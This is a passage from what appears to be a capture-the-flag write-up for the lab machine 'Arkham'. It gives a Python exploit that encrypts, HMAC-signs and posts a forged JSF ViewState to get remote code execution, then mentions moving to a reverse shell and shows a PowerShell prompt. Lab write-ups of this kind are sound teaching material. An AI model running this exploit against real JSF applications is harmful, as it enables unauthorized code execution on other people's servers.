 ```

def encrypt(data):
    des_cipher = DES.new(key, DES.MODE_ECB)
    payload = ""
    data_padded = pad(data)
    # DES encrypt - ECB Mode = 8 bytes at a time after PKCS#5 padding
    for i in xrange(0, len(data_padded), 8):
        chunk = data_padded[i:(i+8)]
        payload += des_cipher.encrypt(chunk)
    return payload

def hmac_sign(data):
    signature = hmac.new(key, data, sha1)
    return signature.digest() # Change to hexdigest() if hex string is needed

def http_post(viewstate):
    target = "http://10.10.10.130:8080/userSubscribe.faces"
    cookie = {"JSESSIONID":"C4274895F271999225D9892E92A1ABAD"}
    params = {
        "j_id_jsp_1623871077_1%3Aemail":"test@test.com",
        "j_id_jsp_1623871077_1%3Asubmit":"SIGN UP",
        "j_id_jsp_1623871077_1_SUBMIT":"1",
        "javax.faces.ViewState":viewstate
        }
    r = requests.post(target, cookies=cookie, data=params)

if len(sys.argv) != 2:
    print "Usage: python %s <command>" %sys.argv[0]
else:
    payload = generate_payload(sys.argv[1])
    payload_encrypted = encrypt(payload)
    payload_signed = payload_encrypted + hmac_sign(payload_encrypted)
    viewstate = base64.b64encode(payload_signed)
    http_post(viewstate)
```

Aaand ...success! Now to turn our RCE into a reverse shell. 
![Image](/assets/img/arkham/exploit_ping.PNG)

---

[arkham]: PS C:\Users\Batman\Documents> whoami